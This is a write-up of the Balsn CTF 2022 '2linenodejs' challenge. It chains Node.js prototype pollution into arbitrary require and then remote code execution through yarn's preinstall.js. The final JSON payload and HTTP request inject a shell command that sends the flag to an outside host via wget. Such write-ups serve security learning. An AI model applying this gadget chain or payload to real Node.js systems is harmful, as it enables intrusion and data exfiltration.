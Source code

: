 # Balsn CTF 2022 - 2linenodejs

## Challenge

### Goal

RCE

### Environment Setup

The challenge is running `server.js` with `socat` on port 1337


```bash
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:'./server.js'
```


The docker image used is `node:18.8.0-alpine3.16`

### Files


```
app
├── index.js
├── server.js
└── usage.js
```

#### server.js
```javascript
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch{
    require('./usage')
  }finally{
    process.exit();
  }
});
```

#### index.js
```javascript
module.exports=(O,o) => (Object.entries(O).forEach(([K,V])=>Object.entries(V).forEach(([k,v])=>(o[K]=o[K]||{},o[K][k]=v))), o);
```

#### usage.js
```javascript
console.log('Validate your JSON with <a href="/?{}">query</a>');
```

## Solution

### Prototype Pollution
First, there is obviously a Prototype Pollution vulnerability in `index.js`

```javascript
module.exports=(O,o) => (
    Object.entries(O).forEach(([K,V])=>
        Object.entries(V).forEach(([k,v])=>
            (o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

For example, one such HTTP request can pollute the base prototype's attribute `x` to `y`
```http
GET /?{"__proto__":{"x":"y"}} HTTP/1.1
Host: 2linenodejs.balsnctf.com
```

### Local File Inclusion

The server is run with `socat`, each connection will creat a new process, so the prototype pollution can only affect what is in that connection. After prototype pollution, only two things may happen before `process.exit()`, `console.log` or `require('. /usage')`.

Since there is not much we can affect in `console.log`, the goal here is to cause some errors so that we can execute `require('. /usage')`.

There are many ways to cause an error, for example, `console.log` takes the first parameter as a format string, so if we pollute the `toString` attribute and then include a `%o` in our JSON, when `console.log` calls `toString` internally, it will cause an error.

However, by polluting `toString`, it may cause an error after the fact. A better approach would be to raise an error in `index.js`, for example `{"__proto__":{"__proto__":{}}` would raise an error because the prototype of the base prototype cannot be changed, it must be `null`.

The next step is to find the usable gadget in the `require` function. By reading the source code of Node.js 18.8.0, we can find that if there is no `package.json` in current path or parrent path, we can change the require file by polluting `data`, `data.name`, `data.exports` and `path` at [trySelf](https://github.com/nodejs/node/blob/7dd2f41c7385538a1d7de531490afe2acbb0daf6/lib/internal/modules/cjs/loader.js#L461)

```javascript=458
function trySelf(parentPath, request) {
  if (!parentPath) return false;

  const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
  if (!pkg || pkg.exports === undefined) return false;
  if (typeof pkg.name !== 'string') return false;
...
```

For example, the following payload will result in a prototype pollution, then cause an error and then require `/app/server.js`.

```JSON
{
   "__proto__":{
      "data":{
         "name":"./usage",
         "exports":"./server.js"
      },
      "path":"/app/",
      "__proto__":{
         "x":1
      }
   }
}
```



### From LFI to RCE

After Prototype Pollution and arbitrary require, the next step is to search through files in `node:18.8.0-alpine3.16`. To my surprise, there are many files that may give us RCE, the file I use is `/opt/yarn-v1.22.19/preinstall.js`.


The following code is the first few lines of `preinstall.js`
```javascript
if (process.env.npm_config_global) {
    var cp = require('child_process');
    var fs = require('fs');
    var path = require('path');

    try {
        var targetPath = cp.execFileSync(process.execPath, [process.env.npm_execpath, 'bin', '-g'], {
            encoding: 'utf8',
            stdio: ['ignore', undefined, 'ignore'],
        }).replace(/\n/g, '');
...
```

Here's a little trick worth mentioning, since Node.js's `require` is actually using `vm` to run code,  we can set global variables by polluting `contextExtensions`, including `process`.


So we can controll `process.env.npm_config_global`, `process.execPath` and `process.env.npm_execpath` through

```JSON
{
   "__proto__":{
      "contextExtensions":[
         {
            "process":{
               "env":{
                  "npm_config_global":"1",
                  "npm_execpath":""
               },
               "execPath":"xxxx"
            }
         }
      ]
   }
}
```

But even if we can controll the executable and the first parameter of `execFileSync`, it is still a bit difficult to use, so the last step is to pollute the `shell` of `execFileSync` to `sh`, so that we can write arbitrary command directly in `process.execPath`.


Finally, chain everything above together, the final payload is 

```JSON
{
   "__proto__":{
      "data":{
         "name":"./usage",
         "exports":"./preinstall.js"
      },
      "path":"/opt/yarn-v1.22.19/",
      "shell":"sh",
      "contextExtensions":[
         {
            "process":{
               "env":{
                  "npm_config_global":"1",
                  "npm_execpath":""
               },
               "execPath":"wget\u0020http://1.3.3.7/?p=$(/readflag);echo"
            }
         }
      ],
      "__proto__":{
         "x":1
      }
   }
}
```

HTTP request:
```http
GET /?{"__proto__":{"data":{"name":"./usage","exports":"./preinstall.js"},"path":"/opt/yarn-v1.22.19/","shell":"sh","contextExtensions":[{"process":{"env":{"npm_config_global":"1","npm_execpath":""},"execPath":"wget\u0020http://1.3.3.7/?p=$(/readflag);echo"}}],"__proto__":{"x":1}}} HTTP/1.1
Host: 2linenodejs.balsnctf.com
```
